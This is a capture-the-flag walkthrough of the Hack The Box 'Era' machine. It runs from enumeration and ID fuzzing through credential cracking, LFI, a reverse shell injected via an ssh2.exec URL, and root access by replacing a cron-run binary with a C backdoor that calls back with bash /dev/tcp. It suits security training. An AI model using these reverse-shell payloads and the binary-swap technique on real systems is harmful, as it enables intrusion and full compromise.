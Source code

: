 
# 👨‍💻Era HTB Walkthrough

* **Machine Type**: Linux  
* **Solved by**: Akshat Nigam  
* **Category**: Web Exploitation, LFI, Privilege Escalation  
* **Difficulty**: Medium  
* **Attack Surface**: Web Application, Backup Disclosure, FTP Access, Cron Exploitation, IDOR   

---

## Port Scan

```bash
nmap -sC -sV 10.10.11.79 -v
````

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Era Designs
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

---

## Subdomain Discovery

```bash
ffuf -u 'http://era.htb' -H 'Host: FUZZ.era.htb' -w /usr/share/fuzzDicts/subdomainDicts/main.txt -fw
```

* Found: `file.era.htb`
* Added to `/etc/hosts`:

```
10.10.11.79 era.htb file.era.htb
```

---

## Directory Enumeration

Visited `http://file.era.htb` → Requires login to manage/upload files.

```bash
dirsearch -u file.era.htb
```

Found a register.php page

---

## ID Fuzzing → Backup Discovery

1. Uploaded a test file to get a download route:

   ```
   /download.php?id=<number>
   ```
2. Created ID list:

   ```bash
   seq 1 5000 > id.txt
   ```
3. Fuzzed:

   ```bash
   ffuf -u 'http://file.era.htb/download.php?id=FUZZ' -w id.txt -H 'Cookie: PHPSESSID=kgp1ni9n5t7j1qci64bhjg23po' -fw 3161
   ```
4. Found ID `54` → Backup archive containing `filedb.sqlite`.

---

## Credential Extraction

```bash
sqlite3 filedb.sqlite
.dump
```

* Extracted password hashes from `users` table.
* Cracked with:

```bash
john hash.txt -w=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

---

## LFI via `php://filter`

From `download.php` source:

```php
} elseif ($_GET['show'] === "true" && $_SESSION['erauser'] === 1) {
```

Admin can perform arbitrary file read using:

```bash
php://filter/convert.base64-encode/resource=/etc/passwd
```

---

## Admin Login & Reverse Shell

Used discovered credentials to log in as admin.

Triggered reverse shell via:

```bash
http://file.era.htb/download.php?id=54&show=true&format=ssh2.exec://eric:america@127.0.0.1/bash -c 'bash -i >& /dev/tcp/10.10.14.16/4444 0>&1'; #
```

On attacker machine:

```bash
rlwrap nc -nlvp 4444
```

---

## Privilege Escalation

### Cron Job Abuse

Uploaded `linpeas.sh` → Found `/root/initiate_monitoring.sh` executed frequently by CRON.

Observed binary `/opt/AV/periodic-checks/monitor` with `.text_sig` section integrity checks.

---

### Exploit

Create backdoored binary:

```c
#include <stdlib.h>
int main() {
    system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.16/4444 0>&1'");
    return 0;
}
```

Compile:

```bash
gcc exploit.c -o attack
```

Replace `.text_sig`:

```bash
objcopy --dump-section .text_sig=text_sig /opt/AV/periodic-checks/monitor
objcopy --add-section .text_sig=text_sig attack
cp attack /opt/AV/periodic-checks/monitor
```

Wait for CRON or execute manually:

```bash
./monitor
```

Catch root shell:

```bash
nc -nlvp 4444
```

---

## Summary

* **User:** Found `file.era.htb`, enumerated IDs, retrieved backup, cracked hashes, logged in as admin, leveraged `php://filter` to read files and trigger reverse shell.
* **Root:** Abused cron job running privileged binary with modifiable `.text_sig` section to inject reverse shell payload.

> Rooted `Era` 🏴‍☠️


